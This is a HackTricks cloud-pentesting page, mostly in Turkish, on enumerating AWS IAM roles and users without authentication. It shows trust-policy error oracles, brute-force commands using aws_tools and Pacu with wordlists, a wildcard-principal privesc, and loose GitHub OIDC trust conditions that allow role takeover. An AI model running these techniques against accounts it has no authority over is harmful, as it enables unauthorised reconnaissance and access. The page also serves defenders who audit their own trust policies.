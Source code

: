 # AWS - IAM & STS Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Bir hesapta Rolleri ve Kullanıcı Adlarını Listele

### ~~Rolü Varsayılan Brute-Force~~

{% hint style="danger" %}
**Bu teknik artık çalışmıyor** çünkü rol var olsa da olmasa da her zaman bu hatayı alırsınız:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Bunu **şu komutla test edebilirsiniz**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Gerekli izinler olmadan **bir rolü varsayılamaya çalışmak**, bir AWS hata mesajı tetikler. Örneğin, yetkisizse, AWS şu yanıtı verebilir:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Bu mesaj, rolün varlığını onaylar ancak onun üstlenme rolü politikasının sizin üstlenmenize izin vermediğini belirtir. Aksine, **var olmayan bir rolü üstlenmeye çalışmak farklı bir hataya yol açar**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
İlginç bir şekilde, **mevcut ve mevcut olmayan roller arasında ayırt etme** yöntemi, farklı AWS hesapları arasında bile geçerlidir. Geçerli bir AWS hesap kimliği ve hedeflenen bir kelime listesi ile, hesapta bulunan rolleri herhangi bir iç sınırlama ile karşılaşmadan listeleyebilirsiniz.

Bu sorunu kötüye kullanarak potansiyel ilkeleri listelemek için bu [scripti kullanabilirsiniz](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume_role_enum).

### Güven Politikaları: Brute-Force Çapraz Hesap rolleri ve kullanıcıları

Bir **IAM rolünün güven politikasını yapılandırmak veya güncellemek, hangi AWS kaynaklarının veya hizmetlerinin o rolü üstlenmesine izin verileceğini tanımlamayı içerir** ve geçici kimlik bilgileri alır. Politika içinde belirtilen kaynak **varsa**, güven politikası **başarıyla** kaydedilir. Ancak, kaynak **yoksa**, geçersiz bir ilke sağlandığını belirten bir **hata üretilir**.

{% hint style="warning" %}
Bu kaynakta bir çapraz hesap rolü veya kullanıcı belirtebileceğinizi unutmayın:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Bu bir politika örneğidir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Kullanmadığınız bir **rol** varsa, bu **hata** ile karşılaşacaksınız. Eğer rol **varsa**, politika **hatasız** bir şekilde **kaydedilecektir**. (Hata güncelleme içindir, ancak oluşturma sırasında da çalışır)

![](<../../../.gitbook/assets/image (153).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
You can automate this process with [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Our using [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* The `admin` role used in the example is a **role in your account to by impersonated** by pacu to create the policies it needs to create for the enumeration

### Privesc

Rol kötü yapılandırılmışsa ve herkesin onu üstlenmesine izin veriyorsa:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
Saldırgan bunu varsayabilir.

## Üçüncü Taraf OIDC Federasyonu

Bir **Github Actions iş akışı** okuyabildiğinizi hayal edin, bu iş akışı **AWS** içindeki bir **role** erişiyor.\
Bu güven, aşağıdaki **güven politikası** ile bir role erişim sağlayabilir:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Bu güven politikası doğru olabilir, ancak **daha fazla koşulun olmaması** buna güvenmemeniz gerektiğini göstermelidir.\
Bu, önceki rolün **Github Actions'tan HERHANGİ BİRİ** tarafından üstlenilebileceği anlamına gelir! Koşullarda ayrıca org adı, repo adı, env, brach gibi diğer şeyleri de belirtmelisiniz...

Bir diğer potansiyel yanlış yapılandırma, aşağıdaki gibi bir **koşul eklemektir**:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Not edin ki **joker karakter** (\*) **nokta** (:) öncesindedir. **org\_name1** gibi bir organizasyon oluşturabilir ve bir Github Action'dan **rolü üstlenebilirsiniz**.

## Referanslar

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
